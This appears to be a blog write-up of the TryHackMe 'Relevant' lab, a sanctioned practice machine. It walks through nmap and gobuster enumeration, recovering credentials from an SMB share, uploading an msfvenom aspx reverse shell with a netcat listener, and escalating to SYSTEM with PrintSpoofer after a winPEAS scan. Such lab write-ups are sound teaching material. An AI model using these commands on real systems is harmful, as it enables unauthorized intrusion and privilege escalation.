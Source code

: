 ```yaml
---

title: Box - Relevant
published: true
---
```


Penetration Testing Challenge

[https://tryhackme.com/room/relevant](https://tryhackme.com/room/relevant)

![0xskar](/assets/matrix.webp)

* * *

## Task 1 - Pre-Engagement Briefing 

The client requests that an engineer conducts an assessment of the provided virtual environment. The client has asked that minimal information be provided about the assessment, wanting the engagement conducted from the eyes of a malicious actor (black box penetration test).  The client has asked that you secure two flags (no location provided) as proof of exploitation:

   - User.txt
   - Root.txt

Additionally, the client has provided the following scope allowances:

   - Any tools or techniques are permitted in this engagement, however we ask that you attempt manual exploitation first
   - Locate and note all vulnerabilities found
   - Submit the flags discovered to the dashboard
   - Only the IP address assigned to your machine is in scope
   - Find and report ALL vulnerabilities (yes, there is more than one path to root)

##  Step 1. Obtain System Information

```shell
Nmap 7.92 scan initiated Fri Jun 24 09:16:14 2022 as: nmap -sC -sV -T4 -p80,135,139,445,3389,49663,49667,49669 -oN nmap_second 10.10.89.5
Nmap scan report for 10.10.89.5
Host is up (0.19s latency).

PORT      STATE SERVICE       VERSION
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds  Windows Server 2016 Standard Evaluation 14393 microsoft-ds
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
|_ssl-date: 2022-06-24T16:17:53+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: RELEVANT
|   NetBIOS_Domain_Name: RELEVANT
|   NetBIOS_Computer_Name: RELEVANT
|   DNS_Domain_Name: Relevant
|   DNS_Computer_Name: Relevant
|   Product_Version: 10.0.14393
|_  System_Time: 2022-06-24T16:17:13+00:00
49663/tcp open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: IIS Windows Server
| http-methods: 
49667/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 1h24m01s, deviation: 3h07m51s, median: 0s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2022-06-24T16:17:15
|_  start_date: 2022-06-24T16:07:41
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows Server 2016 Standard Evaluation 14393 (Windows Server 2016 Standard Evaluation 6.3)
|   Computer name: Relevant
|   NetBIOS computer name: RELEVANT\x00
|   Workgroup: WORKGROUP\x00
|_  System time: 2022-06-24T09:17:16-07:00
```

- ``smbclient -L \\\\10.10.127.174\\`` list smb shares
- ``smbclient \\\\10.10.127.174\\nt4wrksv`` get password.txt file


- Qm9iIC0gIVBAJCRXMHJEITEyMw== ``Bob - !P@$$W0rD!123``
- QmlsbCAtIEp1dzRubmFNNG40MjA2OTY5NjkhJCQk ``Bill - Juw4nnaM4n420696969!$$$``

##  Gobuster

- gobuster dir -u http://10.10.196.58:49663/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

gobuster dir -u http://10.10.196.58:49663/nt4wrksv -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 --no-error

So we found that ``nt4wrksv`` is available on port 49663/nt4wrksv we should be able to upload a reverse shell there and execute it. 

That doesnt seem to work with php files...

Looking up common IIS web application language we can see the common languages are ASP.NET, ISAPI or CGI.

- create msfvenom payload ``msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.x.x.x LPORT=7777 -f aspx > shell.aspx`` and put on the SMB share
- startup netcat listener ``nc -nvlp 7777``
- access the payload we put onto the SMB share to start us a reverse shell. Lets also put on a winpeas to execute now that we're on the system to enumerate some more.
- we can find our uploaded winpead @ c:\inetpub\wwwroot\nt4wrksv

```shell
����������͹ Basic System Information
� Check if the Windows versions is vulnerable to some known exploit https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#kernel-exploits
    Hostname: Relevant
    ProductName: Windows Server 2016 Standard Evaluation
    EditionID: ServerStandardEval
    ReleaseId: 1607
    BuildBranch: rs1_release
    CurrentMajorVersionNumber: 10
    CurrentVersion: 6.3
    Architecture: AMD64
    ProcessorCount: 1
    SystemLang: en-US
    KeyboardLang: English (United States)
    TimeZone: (UTC-08:00) Pacific Time (US & Canada)
    IsVirtualMachine: False
    Current Time: 6/26/2022 1:11:50 AM
    HighIntegrity: False
    PartOfDomain: False
    Hotfixes: KB3192137, KB3211320, KB3213986, 

  [?] Windows vulns search powered by Watson(https://github.com/rasta-mouse/Watson)
 [*] OS Version: 1607 (14393)
 [*] Enumerating installed KBs...

[!] CVE-2019-0836 : VULNERABLE
  [>] https://exploit-db.com/exploits/46718
  [>] https://decoder.cloud/2019/04/29/combinig-luafv-postluafvpostreadwrite-race-condition-pe-with-diaghub-collector-exploit-from-standard-user-to-system/

 [!] CVE-2019-1064 : VULNERABLE
  [>] https://www.rythmstick.net/posts/cve-2019-1064/

 [!] CVE-2019-1130 : VULNERABLE
  [>] https://github.com/S3cur3Th1sSh1t/SharpByeBear

 [!] CVE-2019-1315 : VULNERABLE
  [>] https://offsec.almond.consulting/windows-error-reporting-arbitrary-file-move-eop.html

 [!] CVE-2019-1388 : VULNERABLE
  [>] https://github.com/jas502n/CVE-2019-1388

 [!] CVE-2019-1405 : VULNERABLE
  [>] https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2019/november/cve-2019-1405-and-cve-2019-1322-elevation-to-system-via-the-upnp-device-host-service-and-the-update-orchestrator-service/                                                                                                                                        
  [>] https://github.com/apt69/COMahawk

 [!] CVE-2020-0668 : VULNERABLE
  [>] https://github.com/itm4n/SysTracingPoc

 [!] CVE-2020-0683 : VULNERABLE
  [>] https://github.com/padovah4ck/CVE-2020-0683
  [>] https://raw.githubusercontent.com/S3cur3Th1sSh1t/Creds/master/PowershellScripts/cve-2020-0683.ps1

 [!] CVE-2020-1013 : VULNERABLE
  [>] https://www.gosecure.net/blog/2020/09/08/wsus-attacks-part-2-cve-2020-1013-a-windows-10-local-privilege-escalation-1-day/

 [*] Finished. Found 9 potential vulnerabilities.


����������͹ Modifiable Services
� Check if you can modify any service https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#services
    LOOKS LIKE YOU CAN MODIFY OR START/STOP SOME SERVICE/s:
    RmSvc: GenericExecute (Start/Stop)

```

1. ``whoami /priv``
2. https://github.com/itm4n/PrintSpoofer
3. ``wget https://github.com/itm4n/PrintSpoofer/releases/download/v1.0/PrintSpoofer64.exe`` and put onto SMB share.
4. travel to c:\inetpub\wwwroot\nt4wrksv and ``PrintSpoofer64.exe -i -c cmd``
5. become system admin :smile:

##   Answer the questions below

Travel to Bob's desktop to access his flag

![0xskar](/assets/relevant01.png)

After getting Administrator privileges access the admin desktop for the flag.

![0xskar](/assets/relevant02.png)

* * *



